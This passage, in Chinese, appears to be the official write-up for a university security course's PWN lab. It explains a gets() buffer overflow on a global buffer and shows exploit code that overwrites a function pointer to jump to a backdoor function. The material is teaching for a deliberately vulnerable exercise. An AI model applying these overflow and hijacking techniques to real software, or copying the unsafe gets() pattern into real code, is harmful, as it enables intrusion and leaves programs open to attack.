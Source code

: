 ```yaml
---
title: WriteUp - 二级信安实践 - PWN
date: 2023-07-01 23:14:55
tags:
  - WriteUp
  - tutorial
---
```


> [!done] 
> 二级信安实践 PWN 部分的官方题解，包括附加题。部分题目提供了多种解题思路。
>
> 实验的解题代码和附件已经公开在 [github 仓库](https://github.com/AvavaAYA/ustc-pwn-tutorial/tree/main/official-exp)中。

# 超安全的嗨客笔记

> [!hint] 
> 题目分为两小问，第一问需要溢出修改函数指针，第二问则需要 getshell.

## 缓冲区要被注满了

借助调试工具或者观察代码可以发现，函数指针 `void (*cmdtb[2])()` 在内存中的位置是紧贴在输入缓冲区下面的，而这里的输入函数存在缓冲区溢出：

```c
int get_a_num() {
  gets(input);
  return atoi(input);
}
```

本次实验的所有题目都提供了源码。事实上，使用 gcc 对源码进行编译或者使用现代编辑器（如配置了 LSP 的 [nvim](https://github.com/AvavaAYA/LianVim)）打开源码就可以发现漏洞所在：

![[static/isa-pic_0.png]]

不过这里溢出的是 .bss 段上的全局变量 input，这并不会影响到栈，这也是此题和后面讲到的栈溢出区别所在。

第一问只需要溢出到 cmdtb 上把程序劫持到后门函数 flag1 中即可，同时这个程序也没有开启地址随机化的保护，直接用调试中得到的函数地址偏移量即可，exp 关键部分如下：

```python
def cmd(data):
    ru(b"cmd> ")
    sl(data)


def call_func(data, idx=0, key=b""):
    cmd(data)
    ru(b"offset: ")
    sl(i2b(idx))
    if data[:1] == b"1":
        ru(b"data: ")
        sl(key)


ru(b":")
sl(input("YOUR TOKEN: ").encode())

# ===========exp starts===========
flag1_addr = 0x0000000000401FFA
call_func(b"-31\x00".ljust(8, b"\x00") + p64(flag1_addr), 0)
# ===========exp ends=============

ia()
```